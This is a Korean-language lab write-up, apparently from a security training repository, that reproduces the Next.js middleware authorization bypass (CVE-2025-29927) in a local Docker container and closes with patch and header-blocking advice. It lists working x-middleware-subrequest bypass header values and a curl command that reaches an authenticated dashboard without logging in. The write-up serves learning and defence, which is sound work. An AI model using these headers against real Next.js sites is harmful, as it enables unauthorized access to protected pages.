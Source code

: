 # Next.js Middleware Authorization Bypass (CVE-2025-29927)
> 화이트햇스쿨 3기 17반 박민영</br>
> 깃허브 링크 (https://github.com/minyoung13/kr-vulhub/tree/minyoung13/CVE-2025-29927) </br>

## 1. Next.js 미들웨어 인증 우회 취약점이란?
이 취약점은 Next.js 웹 프레임워크에서 발생하는 보안 취약점으로, 공격자가 미들웨어 기반의 인증 절차를 우회하여 시스템에 접근할 수 있게 한다.
공격자는 특정 값을 가진 `x-middleware-subrequest` 헤더를 추가함으로써 미들웨어를 우회할 수 있으며, 이를 통해 인증되지 않은 사용자가 인증이 필요한 페이지에 무단으로 접속하여 공격할 수 있다. 

### 공격 예시
프레임워크의 버전에 따라 아래와 같은 값을 요청에 추가하면 미들웨어를 우회할 수 있다.</br>
`x-middleware-subrequest: pages/_middleware`</br>
`x-middleware-subrequest: middleware`</br>
`x-middleware-subrequest: src/middleware`</br>
`x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware`</br>

## 2. 취약한 환경 구성
1. `docker compose up -d` 명령어로 Next.js 15.2.2 버전의 컨테이너를 시작한다.
![image](https://github.com/user-attachments/assets/cb593947-95c8-409a-a8fe-14a060a002b9)

2. `docker ps` 명령어로 실행 중인 컨테이너 목록을 확인한다.
![image](https://github.com/user-attachments/assets/3a299e89-c961-4c5e-95dd-bc635b6f3285)

3. 애플리케이션이 시작되면, `http://localhost:3000` 주소를 방문할 때 로그인 페이지로 리디렉션된다.</br>
![image](https://github.com/user-attachments/assets/3c800e3f-83be-4bee-bdbb-ad36c1a634d1)

 `admin/password`를 입력하여 로그인하면 대시보드에 접근할 수 있다.
   ![image](https://github.com/user-attachments/assets/a1c21614-a455-49cc-b57d-417ff6902541)
   
## 3. 취약점 재현
- 인증 과정 없이 대시보드에 접근하려고 하면 로그인 페이지로 리디렉션된다.

```bash
curl -i http://localhost:3000
```

![image](https://github.com/user-attachments/assets/d3cd332d-90de-4321-82cb-0ea673eef2a9)

- http 요청에 `x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware` 값을 추가하면 미들웨어를 우회하여, 인증 없이 대시보드에 접근할 수 있다.

```bash
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000
```

  ![image](https://github.com/user-attachments/assets/5708f8fc-7299-4806-aeb0-8f9a093c769f)

## 4. 취약점 대처 방안
해당 취약점이 수정된 버전으로 업그레이드하여 사용하여야 한다.
- Next.js 15.x → 15.2.3
- Next.js 14.x → 14.2.25
  
업그레이드하지 못하거나 아래의 버전의 경우 `x-middleware-subrequest` 헤더가 포함된 외부 요청이 애플리케이션에 도달하지 못하도록 해당 헤더를 제거하거나 차단하도록 구성하여야 한다.
- Next.js 11.1.4~13.5.6 

## 5. 참고자료
[vulhub/next.js/CVE-2025-29927(영어)
](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)</br>
[vulhub/next.js/CVE-2025-29927(중국어)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)</br>
[CVE-2025-29927: Next.js Middleware Authorization Bypass - Technical Analysis](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)</br>
[Next.js and the corrupt middleware: the authorizing artifact](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
